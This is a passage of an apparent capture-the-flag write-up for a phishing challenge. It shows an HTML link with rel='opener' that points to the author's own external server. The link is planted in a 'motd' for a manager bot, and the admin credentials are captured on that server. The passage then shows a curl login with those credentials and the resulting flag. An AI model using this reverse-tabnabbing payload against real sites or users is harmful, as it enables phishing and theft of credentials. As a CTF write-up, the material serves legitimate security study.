 ```html
<a href="http://pocas.kr/re.html" target="_blank" rel="opener">CSRF</a>
```
Now, create motd using the above payload and pass it to the manager bot.

![](https://media.discordapp.net/attachments/962997469757702177/1087227394970095636/2023-03-20_13.13.22.png?width=1986&height=362)

finally account is sent to my server

```zsh
❯ curl -X POST http://ctf.b01lers.com:5110/login -d "username=n01_5y54dm1n&password=7zzHuXRAp)uj@(qO@Zi0"
bctf{ph15h1ng_reel_w1th_0n3_e}
~
❯
```
